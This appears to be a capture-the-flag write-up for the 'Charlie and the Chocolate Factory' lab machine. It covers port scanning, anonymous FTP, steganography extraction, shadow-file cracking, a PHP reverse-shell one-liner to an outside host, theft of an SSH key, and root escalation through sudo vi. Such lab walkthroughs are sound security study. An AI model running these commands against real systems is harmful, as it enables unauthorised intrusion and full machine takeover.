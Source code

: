 ```yaml
---
title: charlie and the chocolate factory CTF
premalink: /chocolate
---
```

# Charlie and the Chocolate Factory

## Open Ports:
```
nmap -A $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : http://localhost/key_rev_key
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

** Now you have the access to the machine**
* go to /home/charlie

* You will find teleport file which is a id_rsa file(ssh-key)
* copy the contents of the file to host machine
* change the permission of the teleport file in the host machine
```
chmod 600 teleport
ssh -i teleport charlie@ip
```
## Port 22

```
cat uesr.txt
```
## root 

* start tty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
* go to /root
```
python root.py
```
* Enter the key found after reversing

